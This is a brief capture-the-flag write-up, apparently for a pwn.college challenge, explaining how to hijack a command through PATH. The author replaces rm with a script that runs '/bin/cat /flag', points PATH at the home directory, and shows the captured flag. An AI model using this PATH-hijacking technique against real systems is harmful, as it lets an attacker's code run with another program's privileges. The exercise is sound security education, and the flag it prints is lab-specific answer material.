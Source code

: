# Hijacking commands
## INTRODUCTION 
In the 4th challenge, we had to create a command `rm` that will give the flag instead of deleting it when we run `/challenge/run`.We can do this by making a duplicate 
shell script in the home directory named `rm` which will not delete the flag but will `cat` it.So i wrote `nano rm` to create a shell script named `rm` then i wrote
`/bin/cat /flag `in the `rm` file and saved it.
Then i updated the `PATH` variable to `/home/hacker` so that when the `/challenge/run` is envoked, it doesnt go to the original `rm` command and delete the flag but go 
to the `rm` shell script that i created which will `cat` the flag.Then i envoked the `/challenge/run` to get the flag.
## CODE
``` bash
Connected!
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ chmod u+rwx rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{kTwG3Wxj7heNvssZpRpDnuZ_Pr6.ddzNyUDL4YDN0czW}
```
## RESOURCES
none
## REMARK
i didnt include the lines where i added the commands `/bin/cat /flag` in the `rm` shell script because they were in the nano text editor.
